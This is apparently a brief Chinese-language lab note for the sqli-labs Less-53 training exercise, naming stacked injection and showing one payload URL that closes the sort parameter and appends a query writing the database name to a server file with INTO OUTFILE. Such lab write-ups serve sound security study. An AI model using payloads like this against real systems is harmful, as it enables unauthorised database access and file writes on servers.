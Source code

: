**注入类型**

堆叠注入

**闭合方式**

id='\$id'

```sql
http://192.168.80.132/sqli-labs/Less-53/?sort=2';
select 'Less-53',database() into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt"; --+
```

![](file/image_W6uGhI9WhO.png)

![](file/image_OBRkiG_F69.png)
